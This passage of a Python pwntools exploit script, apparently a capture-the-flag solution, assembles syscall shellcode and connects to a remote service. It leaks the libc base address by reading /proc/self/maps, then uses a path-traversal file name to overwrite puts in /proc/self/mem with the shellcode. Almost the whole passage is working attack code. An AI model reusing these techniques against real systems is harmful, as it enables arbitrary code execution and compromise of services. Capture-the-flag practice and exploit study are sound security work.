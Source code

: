 ```python

        mov rsi, rsp

        xor rdx, rdx
        mov dl, 0xa4

        syscall
    """

    # read(fd, $rsp, sizeof(res));
    read = """
        xor rax, rax

        mov rdi, r8

        mov rsi, rsp

        xor rdx, rdx
        mov dx, 0x104

        syscall
    """

    # write(1, $rsp, 0x40);
    write2console = """
        xor rax, rax
        mov al, 0x1

        xor rdi, rdi
        mov dil, 0x1

        mov rsi, rsp

        xor rdx, rdx
        mov dl, 0x40

        syscall
    """
        
    return socket + connect + write + read + write2console

# Register & Login
init_port = sys.argv[1]
r = remote('10.113.184.121', init_port)
random = os.urandom(1).hex()
dealing_cmd(r, 2, random=random)
dealing_cmd(r, 1, random=random)

# Read /proc/self/maps to leak Libc Base
maps_layout = read_any_file(b'/proc/self/maps').split('\n')
libc_base = int(maps_layout[7][:12], 16)
puts_addr = libc_base + libc.symbols['puts']
log.success(f"Libc Base address: {hex(libc_base)}")
log.success(f'Puts Address: {hex(puts_addr)}')

# Get Shellcode
shellcode = asm(ugly_shellcode())
log.info(f'Shellcode = {shellcode}')

# write 2 /proc/self/mem
file_name = b'/proc/self/mem'
path = b'../../../../../../' + b'/' * (89 - len(file_name)) + file_name
dealing_cmd(r, 4, note_name=path, content=shellcode, offset=puts_addr)
```